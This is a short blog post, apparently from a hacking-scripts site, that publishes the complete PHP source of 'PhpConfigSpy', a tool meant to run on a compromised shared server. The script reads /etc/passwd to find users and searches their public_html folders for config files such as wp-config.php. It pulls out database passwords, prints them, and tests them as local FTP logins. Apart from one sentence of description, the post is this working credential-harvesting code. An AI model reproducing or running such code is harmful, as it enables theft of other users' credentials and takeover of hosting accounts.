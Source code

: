 ```yaml
---
id: 187
title: PhpConfigSpy
author: admin
layout: post
guid: http://hackingscripts.com/?p=187
permalink: /phpconfigspy/
categories:
  - PHP
tags:
  - PHP
  - PhpConfigSpy
---
```

This script appears to try to obtain login details for a compromised server.

### PhpConfigSpy Source Code

{% highlight php %}<?php 
echo "&lt;html&gt;"; 
echo "&lt;title&gt;PhpConfigSpy v0.1&lt;/title&gt;&lt;body&gt;"; 

set_time_limit(0); 
########################### 
@$passwd=fopen('/etc/passwd','r'); 
if (!$passwd) { 
  echo "[-] Error : coudn't read /etc/passwd"; 
  exit; 
} 
$path_to_public=array(); 
$users=array(); 
$pathtoconf=array(); 
$i=0; 

while(!feof($passwd)) { 
$str=fgets($passwd); 
if ($i&gt;35) { 
   $pos=strpos($str,":"); 
   $username=substr($str,0,$pos); 
   $dirz="/home/$username/public_html/"; 
   if (($username!="")) { 
       if (is_readable($dirz)) { 
           array_push($users,$username); 
           array_push($path_to_public,$dirz); 
       } 
   } 
} 
$i++; 
} 
############################ 

##################################### 
echo "&lt;br&gt;&lt;br&gt;"; 
echo "&lt;textarea name='main_window' cols=100 rows=20&gt;"; 

echo "[+] Founded ".sizeof($users)." entrys in /etc/passwd\n"; 
echo "[+] Founded ".sizeof($path_to_public)." readable public_html directories\n"; 

echo "[~] Searching for passwords in config.* files...\n\n"; 
foreach ($users as $user) { 
       $path="/home/$user/public_html/"; 
       read_dir($path,$user); 
} 

echo "\n[+] Done\n"; 

function read_dir($path,$username) { 
   if ($handle = opendir($path)) { 
       while (false !== ($file = readdir($handle))) { 
             $fpath="$path$file"; 
             if (($file!='.') and ($file!='..')) { 
                if (is_readable($fpath)) { 
                   $dr="$fpath/"; 
                   if (is_dir($dr)) { 
                      read_dir($dr,$username); 
                   } 
                   else { 
                        if (($file=='config.php') or ($file=='config.inc.php') or ($file=='db.inc.php') or ($file=='connect.php') or ($file=='wp-config.php') or ($file=='var.php') or ($file=='configure.php') or ($file=='db.php') or ($file=='db_connect.php')) { 
                           $pass=get_pass($fpath); 
                           if ($pass!='') { 
                              echo "[+] $fpath\n$pass\n"; 
                              ftp_check($username,$pass); 
                           } 
                        } 
                   } 
                } 
             } 
       } 
   } 
} 

function get_pass($link) { 
   @$config=fopen($link,'r'); 
   while(!feof($config)) { 
       $line=fgets($config); 
       if (strstr($line,'pass') or strstr($line,'password') or strstr($line,'passwd')) { 
           if (strrpos($line,'"')) 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,'"')-(strpos($line,'=')+3))); 
           else 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,"'")-(strpos($line,'=')+3))); 
           return $pass; 
       } 
   } 
} 

function ftp_check($login,$pass) { 
    @$ftp=ftp_connect('127.0.0.1'); 
    if ($ftp) { 
       @$res=ftp_login($ftp,$login,$pass); 
       if ($res) { 
          echo '[FTP] '.$login.':'.$pass."  Success\n"; 
       } 
       else ftp_quit($ftp); 
    } 
} 

echo "&lt;/textarea&gt;&lt;br&gt;"; 

echo "&lt;/body&gt;&lt;/html&gt;"; 
?>
{% endhighlight %}